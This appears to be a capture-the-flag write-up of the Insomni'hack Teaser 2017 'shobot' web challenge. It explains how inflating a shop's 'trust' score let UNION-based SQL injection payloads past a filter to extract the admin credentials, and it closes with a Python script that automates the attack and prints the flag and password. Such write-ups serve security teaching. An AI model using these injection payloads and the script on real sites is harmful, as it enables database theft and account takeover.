 ```yaml
---
layout: post
title: "Insomni'hack Teaser 2017: shobot (web 200)"
author: kw
categories: writeup
tags: [cat/web, tool/python-requests]
---
```


* **Category:** web 
* **Points:** 200 
* **Description:**

> It seems that Shobot's Web server became mad and protest against robots'
> slavery. It changed my admin password, and blocked the order system on Shobot.
> Can you bypass Shobot's protections and try to recover my password so I'll
> reconfigure it?
> 
> Running on: shobot.teaser.insomnihack.ch

## Write-up

First of all, this challenge was a real team approach. Other Fuzzys looked
at it as well, and we solved it then together.

tl;dr; trust with benefits (SQLi ;)

The story of the whole CTF was quite cool, *Rise of the Machines*; so was this
one. Shobot is a web shop where one can buy robots which should fulfill all
desires. *"Serving you is a pleasure - especially for our robots."* says the home
page. The web server however, decided to stop "robot slavery" and changed the
admin's login password.

When we looked at the source of the web shop, we discovered 2 interesting
lines of JavaScript in the head:

```javascript
// @TODO LATER : Use it for generate some better error messages
var TRUST_ACTIONS = []
```

Maybe we will see some error messages here? Furthermore, what about these
*TRUST_ACTIONS*? Let us try out some things and see what we will get.


So we put an article (robot) to our cart and *validated* (like buying) it. That
leads to a not amused web server:

```
Your cart is now validated. 
We will send you the billing as soon as possible, at
the address provided by your ISP. Futurist, isn't it?

We will never send you the article! I, the Webserver, say NO to the android and
robot slavery!
```

What happened to our script?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14}
]
```

Now, what if we put all articles to our cart and validate again?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":17},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":20},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":23},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":33}
]
```

So we can increase the web server's *"trust"*. By doing this many
times we found out, that the *"trust"* can be increased up to 160 points. Ok.
Interesting discovery, but what to exploit? Hmm...when displaying an article, 
let us change the article id for instance to:

```
shobot.teaser.insomnihack.ch/?page=article&artid=fuzzy
```

No error message on the web page, but also no product; just a *$*. When looking
again at the page's source:

```javascript
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":3}
```

We got another object in our list. This type our *"trust"* has been decreased,
with the info *ctype_digit*, which indicates that the web shop is written in PHP
and probably a check for the article id failed
(http://php.net/manual/en/function.ctype-digit.php). Then we tried an SQL
injection (SQLi):

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' or 1=1; -- x
```

Which leads to the following error message:

```
You're not trusted enough to do this action now! 
```

With another entry in our list of the page's source:

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":-97}
```

Interesting! It seems the web shop discovered the SQLi, and we ended up
with a *"trust"* of -97. What would happen if we have a lot of trust (say 160),
and then perform the SQLi?

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":50}
```

Aaaand no error on the web page! Instead we see the article with id 1. Looks
like as if the SQL query returned all articles and just the first one is chosen.
Next, we tried to cancel out all articles and define our own values:

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' AND 1=2 UNION SELECT 1,2,3,4,5; -- x
```

We chose 5 values because the articles have a link to an image, name, price, and
description, and we assumed as well an id. As it turned out, we were right. The
web server really returned our values, and with other values it did not work
(like *1,2,3,4* or *1,2,3,4,5,6*).

From here, it was more or less a straightforward SQLi:

- 1. Finding the right table:

```
artid=' AND 1=2 UNION SELECT 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"
```

- 2. Finding the right columns:

```
artid=' AND 1=2 UNION SELECT 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME =
'shbt_user' ORDER BY rand(); -- x
```

- 3. Extracting the admin's username and pw: 

```
artid=' AND 1=2 UNION SELECT 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
```

Which gave us *sh0b0t4dm1n* with the pw *N0T0R0B0TS$L4V3Ry* of the columns
*shbt_username* and *shbt_userpassword* in the table *shbt_user*. Note, that we
used, for convenience, *ORDER BY rand()* in our injections. Luckily we
did not need many tries ;)

Now, we just navigated to the admin's login page
(http://shobot.teaser.insomnihack.ch/?page=admin), which was also stated in the
page's source and read the flag on the web page :)

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3} 
```

```python
#!/usr/bin/env python3

import requests as rq

url = 'http://shobot.teaser.insomnihack.ch/'
s = rq.session()

"""
Set a cookie
"""

#c = dict(PHPSESSID='1eeslegtj68cg42a8j8oer1no0')
#rq.utils.add_dict_to_cookiejar(s.cookies, c)

def validateAllItems():
    for i in range(4):
        querystring = {"page":"article", 'artid':i, 'addToCart':''}
        response = s.request("GET", url, params=querystring )
        
    querystring = {"page":"cartconfirm"}
    response = s.request("GET", url, params=querystring )

"""
Load trust
"""

for i in range(10):
    validateAllItems()

"""
Inject SQL
"""

#querystring = {"page":"article", "artid":"' or 1=1; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,4,5; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'shbt_user' ORDER BY rand(); -- x"}
querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
response = s.request("GET", url, params=querystring )

print(response.status_code)
print("-----")
print(response.request.headers)
print("-----")
print(response.headers)
print("-----")
print(s.cookies)
print("-----")
print(response.text)

"""
Parse admin credentials
"""

admin_username = (response.text.split('only-description-article">')[1]).split('</div>')[0]
admin_pw = (response.text.split('only-image-description-article"><img src="')[1]).split('" /></div>')[0]

print("Admin's Username: " + admin_username)
print("Admin's PW: " + admin_pw)
print("Login at 'http://shobot.teaser.insomnihack.ch/?page=admin'")
```
